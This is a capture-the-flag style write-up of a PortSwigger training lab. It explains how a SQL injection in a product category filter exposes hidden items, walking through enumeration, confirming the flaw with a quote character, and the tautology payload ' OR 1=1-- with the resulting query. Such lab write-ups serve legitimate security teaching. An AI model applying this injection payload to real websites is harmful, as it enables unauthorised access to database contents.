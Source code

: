 # Write-up: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data>  
Difficulty: APPRENTICE  
Python script:  

## Lab description

![lab_description](img/1.png)

## Query

The query used in the lab is

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

## Steps

### Enumeration

I checked out how the filter works using interceptor and found out that the request is like
`GET /filter?category=Corporate+gifts HTTP/2`
which showed 3 products

### Confirm Vurnerability

I added a single quote to the category parameter and got an error message. This confirms the vulnerability.

### Exploit

To show all products, we need to make sure the request is always true. I used `category=' OR 1=1--` to get all products.
Url is like
`GET /filter?category=Corporate+gifts'+OR+1=1-- HTTP/2`

The result query is like
```sql
SELECT * FROM products WHERE category = 'Corporate gifts' OR 1=1-- AND released = 1
```

This displays all products, including the hidden one and hence solves the lab.

![alt text](img/2.png)